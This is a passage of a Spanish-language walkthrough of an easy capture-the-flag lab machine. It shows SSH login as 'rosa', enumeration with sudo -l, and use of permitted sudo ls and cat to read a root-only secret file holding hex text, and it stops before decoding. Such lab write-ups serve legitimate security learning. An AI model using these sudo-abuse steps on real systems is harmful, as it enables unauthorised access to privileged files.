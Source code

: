 Conecto por ssh!

```
└─# ssh rosa@172.18.0.2                                   
The authenticity of host '172.18.0.2 (172.18.0.2)' can't be established.
ED25519 key fingerprint is SHA256:ECC1astozO7Vfbm1ebeRXC1STGBRfHKV0RnpBAtAuX4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.2' (ED25519) to the list of known hosts.
rosa@172.18.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.15-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri May 31 08:44:21 2024 from 172.17.0.1
rosa@6941a520760d:~$
```
Perfecto. 
Es una máquina nivel fácil, así que vamos a lo típico: sudo -l

```
rosa@6941a520760d:~$ pwd
/home/rosa
rosa@6941a520760d:~$ sudo -l
Matching Defaults entries for rosa on 6941a520760d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rosa may run the following commands on 6941a520760d:
    (ALL) NOPASSWD: /usr/bin/ls, /usr/bin/cat
```
Podemos listar directorios con permisos root con /usr/bin/ls
Tambien podemos leer archivos con permisos de root con el comando /usr/bin/cat.

Vamos a examinar el directorio /root a ver si se oculta algo.
Usando ls descubrimos el archivo /root/secret.txt.
Uso el comando cat como sudo para leer el archivo.

```
rosa@6941a520760d:~$ sudo -u root ls -la /root
total 28
drwx------ 1 root root 4096 May 31 08:56 .
drwxr-xr-x 1 root root 4096 Jul 12 16:19 ..
-rw-r--r-- 1 root root 3106 Apr 22 10:04 .bashrc
drwxr-xr-x 3 root root 4096 May 20 17:07 .local
-rw-r--r-- 1 root root  161 Apr 22 10:04 .profile
drwx------ 2 root root 4096 May 20 16:52 .ssh
-rw-r--r-- 1 root root   72 May 20 19:13 secret.txt
rosa@6941a520760d:~$ sudo /usr/bin/cat /root/secret.txt
4E 5A 58 57 43 59 33 46 4F 4A 32 47 43 34 54 42 4F 4E 58 58 47 32 49 4B
```
Descubrimos un codigo hexadecimal. Vamos a pasarlo por cyberchef:
